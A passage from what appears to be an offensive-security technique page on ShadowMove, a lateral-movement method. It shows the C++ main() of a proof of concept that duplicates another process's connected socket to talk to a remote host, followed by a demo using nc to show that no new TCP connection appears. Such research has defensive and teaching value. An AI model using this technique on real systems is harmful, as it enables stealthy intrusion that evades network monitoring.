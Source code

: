 ```cpp
}


int main(int argc, char** argv) {
	WORD wVersionRequested;
	WSADATA wsaData;
	DWORD dwProcessId;
	LPSTR dstIP = NULL;
	SOCKET targetSocket;
	char buff[255] = { 0 };

	printf("\t\t\t-=[ ShadowMove Gateway PoC ]=-\n\n");

	// smgateway.exe [PID] [IP dst]
	/* It's just a PoC, we do not validate the args. But at least check if number of args is right X) */
	if (argc != 3) {
		printf("[!] Error: syntax is %s [PID] [IP dst]\n", argv[0]);
		exit(-1);
	}
	dwProcessId = strtoul(argv[1], NULL, 10);
	dstIP = (LPSTR)malloc(strlen(argv[2]) * (char)+1);
	memcpy(dstIP, argv[2], strlen(dstIP));


	// Classic
	wVersionRequested = MAKEWORD(2, 2);
	WSAStartup(wVersionRequested, &wsaData);

	targetSocket = findTargetSocket(dwProcessId, dstIP);
	send(targetSocket, "hello from shadowmove and reused socket!\n", strlen("hello from shadowmove and reused socket!\n"), 0);
	recv(targetSocket, buff, 255, 0);
	printf("\n[*] Message from target to shadowmove:\n\n %s\n", buff);
	return 0;
}
```

## Demo

Once we have compiled the above code, we can test the technique as it was described earlier in our [diagram](shadowmove-lateral-movement-by-stealing-duplicating-existing-connected-sockets.md#overview). Below highlighted are key aspects of the demo:

* In the top right corner, there's a target system `192.168.56.102` with `nc` listening on port `80`.
* In the top left corner, there's a compromised (source) system and `nc.exe` establishing a connection to target host `192.168.56.102:80`.
* In the bottom left corner, there's `ShadowMove.exe` running on the source system, which enumerates handles of the `nc.exe` running on the source system, finds a socket that is connected to `192.168.56.102:80` (target system), duplicates it and writes `hello from shadowmove and reused socket!` to it, which is then received on the target system (top right).&#x20;
* Target system (top right) writes back to the same socket `hello from target to shadowmove`, which is received by `shadowmove.exe` on the source system (bottom left).
* In the bottom right, we see a `ProcessHacker` that shows that at no point in time `shadowmove.exe` establishes no TCP connections.
